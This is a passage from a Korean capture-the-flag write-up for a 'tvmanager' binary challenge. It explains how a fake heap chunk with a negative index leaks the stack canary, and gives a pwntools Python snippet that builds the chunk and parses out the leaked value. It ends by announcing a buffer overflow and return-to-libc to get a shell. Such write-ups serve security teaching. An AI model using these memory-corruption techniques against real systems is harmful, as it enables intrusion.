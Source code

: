 print_list를 보면, `printf("%s", categories[ptr->category_idx]);` 를 수행해야 하므로 `categories[ptr->category_idx]` 가 pointer가 되도록 주소를 잘 조절해야한다.

![bss](/assets/img/posts/HS2024-1/tvmanager/bss.png)

`category` 목록이 있는 전역변수 바로 위에 `menu` 목록 변수가 있으므로 `categories[ptr->category_idx]`가 `menu`를 가르키도록 음수값을 지정했다.

`fopen` 에서 에러가 발생하지 않도록 하기위해 해당 메모리의 title을 제목으로 갖는 가짜 파일을 sess3에서 만들어 준다.

canary 값의 최하위 1바이트는 0이므로 `&canary+1`에 있는 값을 구해서 0을 붙였다.

```python
# make fake_chunk
fake_chunk = b''
fake_chunk += p32(0x41414141)    # size
fake_chunk += p32(0xffffffec)      # category_idx * 4 + categories must pointer
fake_chunk += p32(canary_addr + 1)      # title


# register 2nd node that title is fake_chunk
sess1.register(fake_chunk, 4, b'D' * 4)    

# for open file in broadcase func
fake_file = fake_chunk + p32(heap_base + 0x1198)
sess3.register(fake_file, 4, b'E' * 4)
time.sleep(SLEEP_TICK)

# list movies
movie_list = sess1.broadcast(2)
canary = u32(b'\x00' + movie_list.split(b'Titile : ')[1].split(b'\n')[0][0:3])
print(f"Canary: {hex(canary)}")
```

#### 4.2.3. Get shell

이제 canary 값을 구했으니 다시 BOF를 한 뒤, RTL을 한다.
